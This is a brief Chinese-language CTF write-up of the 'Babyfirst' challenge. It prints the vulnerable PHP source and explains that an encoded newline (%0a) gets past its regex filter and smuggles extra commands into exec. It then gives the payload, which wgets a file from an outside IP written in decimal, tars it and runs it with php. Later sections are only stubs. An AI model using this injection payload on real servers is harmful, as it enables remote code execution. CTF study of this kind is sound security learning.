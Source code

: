 1.Babyfirst

源代码:

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }

    exec("/bin/orange " . implode(" ", $args));
?>
```
可以发现过滤是基于大小写字母数字和下划线。
但是%0a可以绕过过滤,而且%0a是换行，这样就可以在exec中执行多条命令（为什么能绕过呢？）
所以最后的命令是
/bin/orange x%0a mkdir orange %0a cd orange%0a wget 846465263%0a    //846465263为ip地址的10进制
/bin/orange x%0a tar cvf aa orange%0a php aa
可以达到执行外部php文件的目的

2.BabyFirst Revenge
实在没看懂

2.nanana
